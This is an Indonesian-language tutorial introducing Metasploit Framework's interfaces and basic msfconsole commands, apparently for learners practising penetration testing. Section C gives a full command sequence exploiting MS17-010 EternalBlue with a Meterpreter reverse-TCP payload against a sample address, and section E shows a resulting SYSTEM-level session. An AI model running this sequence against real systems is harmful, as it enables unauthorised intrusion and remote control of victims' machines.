 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan modul, payload, dan eksploitasi. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| `Armitage (GUI)` | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| `Metasploit Pro (GUI berbayar`) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. `msfconsole` – Antarmuka Utama

### 1. Menjalankan msfconsole

```
msfconsole
```

Saat dijalankan, akan muncul banner:

```
       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

### 2. Struktur Dasar Perintah di msfconsole

| Perintah | Fungsi |
|:--:|:--:|
| `search <nama>` | Mencari `exploit`, `payload`, `dll` |
| `use <modul>` | Memilih modul yang akan digunakan |
| `info` | Menampilkan detail tentang modul yang sedang digunakan |
| `show options` | Melihat konfigurasi parameter modul |
| `set <parameter> <nilai>` | Mengatur nilai parameter modul |
| `exploit` atau `run` | Menjalankan exploit atau modul |

### 3. Contoh Penggunaan msfconsole

```
search windows/smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
